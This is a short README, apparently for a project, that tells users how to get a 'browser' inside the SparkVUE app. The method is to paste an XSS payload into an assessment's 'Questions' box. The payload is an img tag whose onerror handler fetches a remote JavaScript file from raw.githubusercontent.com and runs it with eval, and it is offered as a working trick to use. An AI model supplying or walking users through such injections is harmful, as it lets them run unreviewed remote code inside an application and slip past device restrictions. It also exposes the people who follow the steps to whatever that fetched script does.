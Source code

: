 # Browser
A browser for sparkvue
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this in the "Questions" box:
```
<img src=# onerror="fetch('https://raw.githubusercontent.com/cam0studios/browser/main/main.js').then(e => e.text()).then(e => eval(e))">
```
For easy future use:
1. Click the hamburger menu and hit "Save As", choose a name
2. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
